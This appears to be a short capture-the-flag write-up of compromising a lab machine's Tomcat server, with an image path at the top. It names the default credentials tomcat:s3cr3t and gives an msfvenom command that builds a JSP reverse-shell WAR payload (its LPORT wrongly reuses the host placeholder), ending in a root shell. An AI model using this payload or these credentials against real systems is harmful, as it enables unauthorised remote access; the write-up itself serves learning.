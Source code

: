 > The machine has tomcat server that contains default credentials tomcat:s3cr3t, I created a war reverse shell payload using msfvenom that I copied from  [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)


## Msfvenom payload

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`

> After that I got a shell that has root user privileges 
> 
machine pwned!
